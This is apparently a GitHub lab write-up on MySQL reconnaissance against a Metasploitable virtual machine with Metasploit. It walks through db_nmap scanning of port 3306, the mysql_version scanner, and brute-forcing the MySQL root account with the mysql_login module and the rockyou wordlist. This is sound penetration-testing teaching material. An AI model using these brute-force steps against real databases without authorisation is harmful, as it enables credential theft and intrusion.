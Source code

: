 
## MYSQL ENUMERATION
Find the IP address of the Metasploitable machine first. Then, use the db_nmap command in msfconsole with Nmap flags to scan the MySQL database at 3306 port.
```
db_nmap -sV -sC -p 3306 <metasploitable_ip_address>
```
### OUTPUT:
<img width="1029" height="431" alt="image" src="https://github.com/user-attachments/assets/f1a35750-50d2-4436-8323-8d8f8b720457" />

Use the search option to look for an auxiliary module to scan and enumerate the MySQL database.
```
search type:auxiliary mysql
```
### OUTPUT:
<img width="883" height="274" alt="image" src="https://github.com/user-attachments/assets/cc4dffc6-94f9-4a14-899f-79c642abea53" />

```
use the auxiliary/scanner/mysql/mysql_version
```
### OUTPUT:
<img width="1111" height="814" alt="image" src="https://github.com/user-attachments/assets/93352a6c-7bb2-4da8-9cfb-5bc71e0da3bb" />

module by typing the module name or associated number to scan MySQL version details.
```
use 11
```
Or:
```
use auxiliary/scanner/mysql/mysql_version
```
### OUTPUT:
<img width="916" height="536" alt="image" src="https://github.com/user-attachments/assets/2840314e-392f-4d9d-b1dd-e83562b39e0b" />

Use the set rhosts command to set the parameter and run the module, as follows:


After scanning, you can also brute force MySQL root account via Metasploit's auxiliary(scanner/mysql/mysql_login) module.

```set the PASS_FILE``` parameter to the wordlist path available inside /usr/share/wordlists:

```set PASS_FILE /usr/share/wordlists/rockyou.txt```

Then, specify the IP address of the target machine with the RHOSTS command.

```set RHOSTS <metasploitable-ip-address>```

Set BLANK_PASSWORDS to true in case there is no password set for the root account.

```set BLANK_PASSWORDS true```

### OUTPUT:
<img width="883" height="274" alt="image" src="https://github.com/user-attachments/assets/cc4dffc6-94f9-4a14-899f-79c642abea53" />
<img width="812" height="177" alt="image" src="https://github.com/user-attachments/assets/764bea5b-364a-48cd-8ecb-b32f9a9afacb" />

## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
